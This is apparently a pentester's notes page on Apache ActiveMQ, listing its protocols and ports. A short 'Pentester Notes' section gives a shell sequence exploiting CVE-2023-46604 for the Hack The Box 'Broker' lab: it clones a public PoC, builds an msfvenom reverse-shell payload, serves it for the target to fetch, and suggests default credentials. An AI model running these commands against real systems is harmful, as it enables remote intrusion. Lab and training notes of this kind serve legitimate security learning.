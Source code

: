 # Apache ActiveMQ

<div class="row row-cols-lg-2"><div>

Apache [ActiveMQ](https://activemq.apache.org/) is an open source [message broker](https://en.wikipedia.org/wiki/Message_broker) written in Java. It support multiple protocols such as JMS, [MQTT](/operating-systems/others/embedded/_knowledge/index.md#mqtt-protocol), STOMP, [AMQP](/operating-systems/others/embedded/_knowledge/index.md#amqp-protocol).

* [Classic](https://github.com/apache/activemq) <small>(2.3k ⭐)</small> / [Artemis](https://github.com/apache/activemq-artemis) <small>(1.0k ⭐)</small>
* [Artemis Documentation](https://activemq.apache.org/components/artemis/documentation/)
* ActiveMQ Artemis is the next gen version

It's commonly used when we need to connect applications that are using different protocols.
</div><div>

**Common ports** 🐊

* 1883 <small>(TCP, MQTT)</small>
* 5671 <small>(TCP, SSL/TLS AMQP)</small>
* 5672 <small>(TCP, AMQP)</small>
* 8161 <small>(TCP, Admin Web)</small>
* 8883 <small>(TCP, SSL/TLS MQTT)</small>
* 61613 <small>(TCP, STOMP)</small>
* 61614 <small>(TCP, SSL/TLS STOMP)</small>
* 61616 <small>(TCP, ActiveMQ OpenWire transport)</small>
</div></div>

<hr class="sep-both">

## ActiveMQ Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

* [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604): vulnerability in ActiveMQ OpenWire Transport leading to remote code execution

[![broker](../../../cybersecurity/_badges/htb-p/broker.svg)](https://app.hackthebox.com/machines/Broker)

```shell!

$ git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git cve-2023-46604
$ cd cve-2023-46604
$ sed -i 's/0.0.0.0/x.y.z.t/g' poc-linux.xml
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 RHOSTS=broker.htb -f elf -o test.elf
$ go build
$ python -m http.server 8001 # in another terminal
$ ./ActiveMQ-RCE -i <target_ip> -u http://<your_IP>:8001/poc-linux.xml
```

* Test default credentials (`admin:admin`, `user:user`)
</div><div>
</div></div>